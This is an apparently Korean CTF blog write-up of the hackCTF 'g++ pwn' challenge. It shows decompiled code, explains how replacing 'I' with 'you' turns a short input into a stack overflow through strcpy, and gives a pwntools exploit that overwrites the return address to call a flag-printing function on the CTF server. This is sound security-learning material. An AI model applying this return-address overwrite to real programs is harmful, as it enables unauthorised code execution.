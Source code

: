 ```yaml
---
layout: post
title:  "[hackCTF]g++ pwn"
date:   2020-02-18
---
```


hackCTF pwnable 12번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vuln();
  return 0;
}
```

## ida - vuln
```cpp
int vuln()
{
  int v0; // ST08_4
  const char * v1; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v4; // [esp+3Ch] [ebp-1Ch]
  char v5; // [esp+40h] [ebp-18h]
  char v6; // [esp+47h] [ebp-11h]
  char v7; // [esp+48h] [ebp-10h]
  char v8; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v6);
  std::string::string(&v5, "you", &v6);
  std::allocator<char>::allocator(&v8);
  std::string::string(&v7, "I", &v8);
  replace((std::string *)&v4, (std::string *)&input, (std::string *)&v7);
  std::string::operator=(&input, &v4, v0, &v5);
  std::string::~string((std::string *)&v4);
  std::string::~string((std::string *)&v7);
  std::allocator<char>::~allocator(&v8);
  std::string::~string((std::string *)&v5);
  std::allocator<char>::~allocator(&v6);
  v1 = (const char * )std::string::c_str((std::string *)&input);
  strcpy(&s, v1); // 취약점
  return printf("So, %s\n", &s);
}
```

## ida - get_flag
```cpp
int get_flag()
{
  return system("cat flag.txt"); // flag 출력
}
```
vuln은 문자열을 입력 받아 I를 you로 치환하여 s에 저장하는 함수이다. get_flag 함수를 실행시키려면 vuln의 ret을 덮어야 한다. ret을 덮기 위해서 0x40byte가 필요하지만 fgets 함수는 32byte밖에 덮을 수 없다. vuln의 특성을 이용하여 I를 you로 치환하면 fgets 함수에서는 I지만 strcpy 함수로 s에 저장할 때는 you로 치환되므로 0x40byte를 덮을 수 있다. 이를 참고하여 payload를 작성하면 된다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3011)

#p.recvuntil("yourself: ")

payload = "I"*21 + "A" + p32(0x08048F0D)

p.sendline(payload)

p.interactive()
```

## 결과
![1201](https://drive.google.com/uc?id=1KEJsLXVtz5B-mJ6wJ_Iqwx7qOtAYbB4Z)
